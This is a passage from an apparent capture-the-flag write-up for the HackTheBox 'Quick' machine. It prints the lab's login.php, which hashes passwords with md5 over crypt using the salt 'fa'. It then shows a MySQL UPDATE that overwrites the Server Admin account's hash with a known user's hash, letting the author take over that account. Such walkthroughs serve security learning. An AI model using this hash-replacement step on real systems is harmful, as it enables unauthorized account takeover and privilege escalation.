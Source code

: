 They uses a salt `fa`

Instead of cracking the password we know `elisa` password so why don't we use the same password for `srvadm` too. To confirm the `elisa` salt I checked `/var/www/html/login.php`

```php
sam@quick:/var/www/html$ cat login.php
cat login.php
<?php 
include("db.php");
if(isset($_POST["email"]) && isset($_POST["password"]))
{
	$email=$_POST["email"];
	$password = $_POST["password"];
	$password = md5(crypt($password,'fa'));
        $stmt=$conn->prepare("select email,password from users where email=? and password=?");
        $stmt->bind_param("ss",$email,$password);
        $stmt->execute();
        $result = $stmt->get_result();
        $num_rows = $result->num_rows;
        if($num_rows > 0)
	{
		session_start();
		$_SESSION["loggedin"]=$email;
		header("location: home.php");
	}
	else
	{
		echo '[script](script)alert("Invalid Credentials");window.location.href="/login.php";[/script](/script)';
	}
}
```

This is the source file of `login.php` which we used to login as `elisa` and here we can see, same salt `fa`

Logged back to database and changed the password of `srvadm`

```php
mysql> UPDATE users
UPDATE users
    -> SET password = 'c6c35ae1f3cb19438e0199cfa72a9d9d'
SET password = 'c6c35ae1f3cb19438e0199cfa72a9d9d'
    -> WHERE name  = 'Server Admin';
WHERE name  = 'Server Admin';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from users;
select * from users;
+--------------+------------------+----------------------------------+
| name         | email            | password                         |
+--------------+------------------+----------------------------------+
| Elisa        | elisa@wink.co.uk | c6c35ae1f3cb19438e0199cfa72a9d9d |
| Server Admin | srvadm@quick.htb | c6c35ae1f3cb19438e0199cfa72a9d9d |
+--------------+------------------+----------------------------------+
2 rows in set (0.00 sec)
```
